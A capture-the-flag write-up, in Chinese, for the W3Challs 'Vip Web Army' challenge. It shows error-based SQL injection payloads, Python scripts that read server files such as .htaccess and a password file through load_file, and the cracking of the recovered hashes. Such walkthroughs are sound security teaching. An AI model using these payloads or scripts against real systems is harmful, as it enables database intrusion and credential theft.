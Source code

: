 # Vip Web Army

### SQL Injection
* 這一題基本上就是 sql injection，注入點在 recipient 這裡
* 用 postman 稍微送一下可以發現回傳會有錯誤資訊
    ```sql=
    You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\', '123')' at line 1
    ```
    payload = `'`
* 所以這一題基本上可以用 error base 的方式爆出資料
* `@@` 的[意思](https://stackoverflow.com/questions/15961463/mysql-what-does-mean)
* payload list
    ```sql=
    -- 版本
    -- XPATH syntax error: '~10.3.18-MariaDB~'
    extractvalue(1,concat(0x7e,(select @@version),0x7e))
    
    -- 資料庫名
    -- XPATH syntax error: '~VipWebArmy~'
    extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata limit 2,1),0x7e))
    
    -- 爆表名
    -- XPATH syntax error: '~members~'
    -- 因為引號會被 addslashes，所以用 hex 逃逸
    extractvalue(1,concat(0x7e,(select table_name from information_schema.columns where table_schema=0x56697057656241726d79 limit 0,1),0x7e))
    
    -- 爆 columns
    -- XPATH syntax error: '~id~'
    extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=0x56697057656241726d79 limit 0,1),0x7e))
    -- XPATH syntax error: '~login~'
    extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=0x56697057656241726d79 limit 1,1),0x7e))
    -- XPATH syntax error: '~password~'
    extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=0x56697057656241726d79 limit 2,1),0x7e))
    
    -- 爆出內容
    -- XPATH syntax error: '~LuG[3]R~'
    extractvalue(1,concat(0x7e,(select login from members limit 0,1),0x7e))
    -- XPATH syntax error: '~4188679c1d8a284ccc41a6b601869e0'
    extractvalue(1,concat(0x7e,(select password from members limit 0,1),0x7e))
    ```
* 可以看到 password 明顯被雜湊過，直接用 online 的 md5 decryption 來解解看，解出來的結果 `kiss`
* 直接登入 http://vip.hax.w3challs.com/index.php?page=login `LuG[3]R:kiss`
* 可以得知一個 file 是需要帳密才可以訪問的
* 想法上是用 `load_file` 拿到檔案，但是 path 不是預設的 path
* 用 `secure_file_priv` 可以爆出 path
    ```sql=
    -- XPATH syntax error: '~/home/vipwebarmy/www/~'
    extractvalue(1,concat(0x7e,(select @@secure_file_priv),0x7e))
    ```
* 之後就可以用 `/home/vipwebarmy/www/VipWebArmy.php` 來 load file
    ```sql=
    -- XPATH syntax error: '~<?php

    -- /*********************'
    extractvalue(1,concat(0x7e,(load_file(0x2f686f6d652f76697077656261726d792f7777772f56697057656241726d792e706870)),0x7e))
    ```
    * python script
        ```python=
        import requests

        url = 'http://vip.hax.w3challs.com/index.php?page=contact'
        headers = {
            'User-Agent': 'Mozilla/5.0 (X11; CrOS i686 4319.74.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/29.0.1547.57 Safari/537.36'
        }
        # i = 1
        for i in range(30):
            payload = 'extractvalue(1,concat(0x7e,(substr(load_file(0x2f686f6d652f76697077656261726d792f7777772f56697057656241726d792e706870),{},30)),0x7e))'.format(str(1 + i * 30))
            data = {
                'recipient': payload, 
                'msg': '123'
            }
            cookies = {
                'PHPSESSID': 'your_PHPSESSID'
            }
            response = requests.post(url, headers=headers, data=data, cookies=cookies)
            # print(response.text)
            print(response.text[763:793], end='')
            if '?>' in response.text[763:793]:
                break
        ```
    * VipWebArmy.php source code
        ```php=
        <?php

        /********************************************************************************************\
        |            ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~                    |
        | A comment that seems useless but that is useful nonetheless. Understand if you can :D      |
        | Do not remove!                                                                             |
        |            ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~                    |
        \*******************************************************************************************/

        session_start();

        require_once('lang.php');
        require_once('../db/vip.php');

        if(!isset($_SESSION['admin']) || $_SESSION['admin']!==True)
                echo fail_auth1;
        else
                echo password_is.password('azerfazefazdamlfkazoezaefralmzefalz').'.';

        ?>
        ```
        * 顯然沒什麼用處
* 這時候要思考一個點是在 apache 裡面，定義 file security 的地方在哪裡 `.htaccess` `/home/vipwebarmy/www/.htaccess`
    * python script
        ```python=
        import requests

        url = 'http://vip.hax.w3challs.com/index.php?page=contact'
        headers = {
            'User-Agent': 'Mozilla/5.0 (X11; CrOS i686 4319.74.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/29.0.1547.57 Safari/537.36'
        }
        # i = 1
        for i in range(30):
            payload = 'extractvalue(1,concat(0x7e,(substr(load_file(0x2f686f6d652f76697077656261726d792f7777772f2e6874616363657373),{},30)),0x7e))'.format(str(1 + i * 30))
            data = {
                'recipient': payload, 
                'msg': '123'
            }
            cookies = {
                'PHPSESSID': 'your_PHPSESSID'
            }
            response = requests.post(url, headers=headers, data=data, cookies=cookies)
            # print(response.text)
            print(response.text[763:793], end='')
            if '?>' in response.text[763:793]:
                break
        ```
    * .htaccess
        ```file=
        <Files VipWebArmy.php>
        AuthType Basic
        AuthName "VipWebArmy - Protected Area"
        AuthUserFile "/home/vipwebarmy/www/pass/pass.txt"
        require valid-user
        </Files>
        ```
* 可以得知關鍵路徑 `/home/vipwebarmy/www/pass/pass.txt`
    * python script
        ```python=
        import requests

        url = 'http://vip.hax.w3challs.com/index.php?page=contact'
        headers = {
            'User-Agent': 'Mozilla/5.0 (X11; CrOS i686 4319.74.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/29.0.1547.57 Safari/537.36'
        }
        # i = 1
        for i in range(30):
            payload = 'extractvalue(1,concat(0x7e,(substr(load_file(0x2f686f6d652f76697077656261726d792f7777772f706173732f706173732e747874),{},30)),0x7e))'.format(str(1 + i * 30))
            data = {
                'recipient': payload, 
                'msg': '123'
            }
            cookies = {
                'PHPSESSID': 'your_PHPSESSID'
            }
            response = requests.post(url, headers=headers, data=data, cookies=cookies)
            # print(response.text)
            print(response.text[763:793], end='')
            if '?>' in response.text[763:793]:
                break
        ```
    * pass.txt
        ```=
        army:xedh6CDiqPkbA
        ```
    * 用 john 爆破一下 `army:soldier`
* 訪問 http://vip.hax.w3challs.com/VipWebArmy.php `army:soldier` 拿到 flag
* flag : `W3C{MenuM4xiB3st0f}`

### 題外話
* 這一題可以用 sqlmap 解
